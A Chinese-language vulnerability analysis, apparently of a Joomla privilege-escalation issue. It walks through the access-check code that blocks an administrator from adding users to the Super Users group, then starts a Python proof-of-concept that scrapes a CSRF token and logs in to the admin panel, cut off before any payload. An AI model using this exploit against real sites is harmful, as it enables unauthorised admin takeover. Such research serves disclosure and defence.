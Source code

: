 回到checkGroup方法中

![](images/15891013329260.png)


上文以及指导getGroupPath方法的作用了，由于我们请求构造中的$groupid为8，即想把test账号添加到id为8对应的super users组。getGroupPath接收传入的$groupid,返回super user节点的祖先数组array (0=> '1', 1 => '8',)

![](images/15891013392262.png)


接着，在libraries\src\Access\Rule.php的allow方法中，程序遍历superuser的祖先数组array

(0 => '1', 1 => '8',)

![](images/15891013479848.png)


程序判断superuser的祖先节点是否有在`$this->data`中出现，`$this->data`值如下

![](images/15891013613065.png)


`$this->data`数组代表目前用户不可以访问的节点id。由于我们使用的是administrator用户组的账号，不可以操作的用户组节点id为8，即super user，因此`$this->data`数组值为array (8 => 1,)

superuser的祖先数组中的叶子节点值为8，正好在目前用户不可以访问的`$this->data`数组中

![](images/15891013864366.png)


因此该用户权限无法进行操作，程序抛出当前用户不是超级管理员的错误

![](images/15891013929412.png)


漏洞复现

![](images/15891013980590.png)



```python
#!/usr/bin/python
import sys
import requests
import re
import argparse


def extract_token(resp):
    match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
    if match is None:
        print("[-] Cannot find CSRF token!\n")
        return None
    return match.group(1)


def try_admin_login(sess, url, uname, upass):
    admin_url = url + '/administrator/index.php'
    print('[+] Getting token for admin login')
    resp = sess.get(admin_url, verify=True)
    token = extract_token(resp)
    if not token:
        return False
    print('[+] Logging in to admin')
    data = {
        'username': uname,
        'passwd': upass,
        'task': 'login',
```